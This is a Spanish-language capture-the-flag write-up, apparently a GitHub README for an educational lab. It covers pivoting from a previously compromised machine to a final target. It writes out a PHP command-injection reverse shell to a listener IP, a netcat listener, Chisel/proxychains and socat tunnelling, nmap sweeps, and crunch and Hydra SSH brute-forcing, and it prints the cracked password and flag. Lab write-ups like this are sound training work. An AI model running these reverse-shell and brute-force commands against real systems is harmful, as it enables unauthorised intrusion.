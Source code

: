 # CTF-4
*Capture the flag* donde se trabaja el *pivoting* entre máquinas de la misma red, *reverse shell*, escucha de puertos, montaje de un servidor con *Python*, *Crunch*, *Hydra*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  <img src="https://img.shields.io/badge/-chisel-CD1414?style=for-the-badge&logo=chisel&logoColor=white" />
  <img src="https://img.shields.io/badge/-Proxychains-3EBBDF?style=for-the-badge&logo=proxychains&logoColor=white" />
  <img src="https://img.shields.io/badge/-nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Crunch-0080FF?style=for-the-badge&logo=crunch&logoColor=white" />
  <img src="https://img.shields.io/badge/-Hydra-77B6A8?style=for-the-badge&logo=hydra&logoColor=white" />
  <img src="https://img.shields.io/badge/-Socat-777BB4?style=for-the-badge&logo=socat&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretende conseguir un archivo (_flags_), dentro del entorno del usuario básico. Para ello, se deberá pivotar desde la máquina resuelta en el [CTF-3](https://github.com/Cibersegurata39/CTF-3) a la máquina de este nuevo reto y una vez dentro pasar al usuario básico.

## Que hemos aprendido?

- Realizar un *pivoting* entre dos máquinas de la misma red.
- Realizar una *reverse shell* con código *php*.
- Poner puertos en escucha.
- Montar un sevidor fácilmente con *Python*.
- Encontrar una máquina y enumerar sus puertos.
- Montar un diccionario a partir de una secuencia dada de caracteres.
- *Crackear* una contraseña.

## Herramientas utilizadas

- *Kali Linux*.
- *Pivoting*: *Python3*, *Chisel*, *Proxychains*, *Socat*.
- Enumeración: *Nmap*.
- Penetración: *Netcat*, *Crunch*, *Hydra*. 

## Steps

### Vulnerabilidades explotadas

Partiendo del primer formulario encontrado en el CTF-3, ejecuto una *reverse shell* con código **php**, indicando la dirección IP y el puerto de la máquina local que estará escuchando.

<code>;ls;php -r '$sock=fsockopen("10.0.2.15",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</code>

![image](https://github.com/user-attachments/assets/8ec4b208-1dd2-47d4-8f79-9155f6f56acf)

Para poner en escucha el puerto 1234, utilizo **Netcat**.

<code>nc -lvnp 1234</code>

La conexión ha sido un éxito, esta muestra la IP de la máquina 172.18.0.2.

![image](https://github.com/user-attachments/assets/9eaefd34-4035-4094-af1e-db536c3b4a07)

Para **pivotar** entre máquinas, es necesario descargar el programa **Chisel** en la máquina atacante. Puesto que también se necesita en la máquina que acabamos de penetrar (máquina intermedia, a partir de ahora), se crea un servidor con **Pyhotn3** desde la carpeta donde se encuentra *Chisel* (máquina atacante). Este sevidor es necesario para poder descargar el programa en la máquina intermedia, ya que no dispone de esta herramienta y tampoco se puede descargar directamente desde ella, pues está muy capada.

<code>python3 -m http.server 8080</code>

![image](https://github.com/user-attachments/assets/7f85fb6c-c443-49e6-9a1f-174109bea616)

Puesto que tampoco dispone de los binarios <code>wget</code> o <code>curl</code>, se utiliza un pequeño código *php* para realizar la descarga ('descarga_archivo.php'). En el código se indica la dirección donde se encuentra *Chisel* (máquina atacante), así como donde guardarlo (máquina intermedia). Se guarda en la carpeta '/tmp' pues desde ahí se tienen permisos de ejecución.

Una vez descargado y otorgados los permisos de ejecución, lo lanzo desde la máquina anfitriona, como servidor, y pongo en escucha el puerto 3456 (por ejemplo).

<code>chisel server --reverse -p 3456</code>

![image](https://github.com/user-attachments/assets/a40614a5-773f-4d32-881f-1c3463a639bc)

También lo lanzo en la máquina intermedia, como cliente, indicándole la dirección IP y puerto de la máquina atacante. Además, con ‘R:socks’ indico que me de acceso a todas las IPs/puertos con las que esté conectada la máquina intermedia (conexión con la máquina víctima a la que se pretende conseguir llegar).

<code>./chisel client 10.0.2.15:3456 R:socks</code>

![image](https://github.com/user-attachments/assets/d88edd57-7d66-4665-a25d-8ea6fcf3f85d)

Ahora la máquina anfitriona, por medio del puerto 3456, tiene visibilidad de las posibles conexiones de la máquina intermedia, como podría ser la máquina final.

Para hacer un barrido de IPs con el objetivo de encontrar la última máquina, debo utilizar la herramienta **Proxychains** para utilizar el túnel creado con *Chisel*. Se le indica su dirección IP y puerto (se muestra en la *shell* de la máquina atacante después de realizar la conexión), los cuales se añaden en el archivo de configuración.

<code>sudo nano /etc/proxychains4.conf</code>

Se descomenta la línea que contiene *Dynamic_chain* y se comenta la línea que contiene *static_chain*. Además, al final del archivo se añade ‘socks5 127.0.0.1 1080’ (dirección perteneciente al túnel creado).

![image](https://github.com/user-attachments/assets/1410a5c7-1d8a-4d02-bbee-368ca7cb7b7b)

Para utilizar ahora este túnel se utiliza el comando *Proxychains* y se lanza un *nmap* para hacer el barrido de IPs con la dirección de la máquina intermedia y así encontrar aquellas máquinas que estén en su misma red. Al utilizar *proxychains* sería como lanzar el *nmap* desde la propia máquina intermedia. Se indica que no haga reconocimiento *ping* y la máquina final es encontrada en la dirección 172.18.0.3.

<code>proxychains nmap 172.18.0.0/24 -Pn</code>

![image](https://github.com/user-attachments/assets/f133cc92-395e-4f6e-a3da-e846edcd3917)

Ahora se puede realizar un ataque más centrado en esta máquina y buscar qué puertos tiene abiertos y qué versiones corren en ellos.

<code>proxychains nmap 172.18.0.3 -Pn -sV -p-</code>

![image](https://github.com/user-attachments/assets/241f93d4-06fe-4b98-8ff3-f47a3f37af44)

Se encuentra un servicio *SSH* en el puerto 2222, por lo que se intenta la conexión por medio de *proxychains*. Aparece el inconveniente de que ninguna de las contraseñas encontradas en la base de datos sirven para tener acceso. Igual que en el anterior CTF (CTF-3) se encontró, por medio de *SQLMap*, la tabla con la bandera correspondiente, también se encontró una tabla con diferentes usuarios y contraseñas.

![image](https://github.com/user-attachments/assets/1e9d0fc7-495d-4009-a32f-7a9210c3451b)

En tal caso, se va a probar diferentes combinaciones de los caracteres de cada contraseña para ver si alguna es la correcta, empezando con el usuario Pablo pues es el más probable de éxito. Para conseguir la permuta de caracteres se hace uso de la herramienta **Crunch**, la cual creará un diccionario con todas las posibilidades. Indico que las *passwords* generadas tengan una longitud (mínima y máxima) de 8, la contraseña original a partir de la cual se formarán las demás y el nombre del dicionario que se creará.

<code>crunch 8 8 "tefeme\!." -o pwds.txt</code>

![image](https://github.com/user-attachments/assets/bb9dd4c4-0072-41ec-b938-97572b8b82ad)

Una vez creado el diccionario 'pwds.txt', se utiliza este para encontrar la contraseña, por medio de fuerza bruta. Esto es posible gracias a la ayuda de la herramienta **Hydra**. En el comando se indica la IP y el servicio a *crackear*, el usuario (en este caso, como se va a probar con Pablo, se pasa '-l' en minúscula), la contraseña (puesto que es la que se quiere encontrar, se indica con '-P' en mayúscula) y finalmnente se informa del puerto donde se conectará. Por aclarar, si se conoce el usuario o la contraseña, estos se indican con la letra en minúscula. Por contra, si no se conocen se indica con mayúscula.

<code>proxychains hydra 172.18.0.3 ssh -l pablo -P pwds.txt -s 2222</code>

![image](https://github.com/user-attachments/assets/b8957d3e-b8fc-479f-b1d6-8295caf4f3e2)

*Hydra* ha encontrado la contraseña correcta: 'tefeme.!'. Ya sólo queda conectarse vía SSH con esta password y buscar la *flag*.

![image](https://github.com/user-attachments/assets/5881e81f-6cee-4265-be5b-4de96ea09c31)

**Flag: 4d8c72671245d9d1b8e03a826db9d5ecead28c8c**

### Alternativa Socat

Otra herramienta que permite el *pivoting* y se puede utilizar como alternativa a *Chisel* es **Socat**, la cual si se encuentra en la máquina intermedia. Desde esta se indica el puerto que se pone en escucha y la IP-puerto de la máquina final a la que se pretende conectar.

<code>socat tcp-l:222,fork tcp:172.18.0.3:2222</code>

![image](https://github.com/user-attachments/assets/c658cc35-ef0a-4189-8ffc-eb6c821eb6b0)

De esta manera, desde la máquina atacante se puede conectar váa *ssh* a la máquina intermedia por el puerto que está en escucha. Y este, a su vez, conectar con el puerto de la máquina final indicado. 

<code>ssh pablo@172.18.0.2 -p 222</code>

![image](https://github.com/user-attachments/assets/26da0e19-0014-488e-b7c5-af1c9189a428)

Una vez dentro ya se puede buscar la bandera.
